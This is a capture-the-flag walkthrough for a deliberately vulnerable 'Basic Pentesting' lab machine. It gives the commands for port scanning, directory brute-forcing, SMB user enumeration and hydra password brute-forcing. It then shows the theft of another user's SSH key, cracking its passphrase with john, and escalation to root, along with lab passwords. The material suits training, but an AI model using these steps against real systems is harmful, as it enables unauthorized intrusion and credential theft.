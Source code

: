 # Basic Pentesting

## Deploy and connect
tick emoji
`export IP=<machine-ip>`

## Find the services exposed by the machine
`nmap -sC -sV -vvv -T5 --max-retries=25000 -oN nmapinitial $IP`
finds open ports:
22 - ssh
80 - apache web server
139 - samba 
445 - samba
8009 - ?
8080 - tomcat server panel?

## What is the name of the hidden directory on the web server?
`gobuster dir -u 10.10.191.48 -x txt,php,js,html,phtml,sh -t 30 -o gobusterscan -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
immediately finds /development
answer:
```
development
```

### notes:
/development/j.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
/development/dev.txt:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

## User brute-forcing to find username and password
## What is the username?
(hint: smb)
found a new script for helping with this
`enum4linux -a $IP`
finds users kay, jan - and does other stuff
ans:
```
jan
```
## What is the password?
running hydra for this:
`hydra -l jan -P /usr/share/wordlists/rockyou.txt -s 8080 -f $IP http-get /manager/html`
finds:
```
armando
```

## What service do you use to access the server? 
```
ssh (port 22)
```
`ssh jan@$IP`
`armando`

we're in

## Enumerate the machine to find any vectors for privilege ascalation
linenum.sh

## What is the name of the other user you found? 
found way earlier,
```
kay
```

## If you have found another user, what can you do with this information?
### escalate:
kay's .ssh folder is readable for jan, meaning we can grab the id_rsa file
ssh -i id_rsa kay@$IP

turns out there's a passphrase.
googling how to decrypt shows us john the ripper has the capability to crack the passphrase
`locate ssh2john.py`
`python $(locate ssh2john.py) id_rsa > id_rsa.hash`
runs the ssh2john script, generates a compatible hash file
`/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash`
shows us the passphrase is 
```
beeswax
```
so via `ssh -i id_rsa kay@$IP` we can login with beesway, and we're now kay


## What is the final password you obtain?
In kay's home folder we see pass.bak
`cat pass.bak`
gives us password:
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
to confirm:
`sudo -l` enter password - correct
kay can run ALL commands, kay access = root access
`sudo su` gives us real root

## Extra
there's a flag in /root! 
`cat /root/flag.txt`
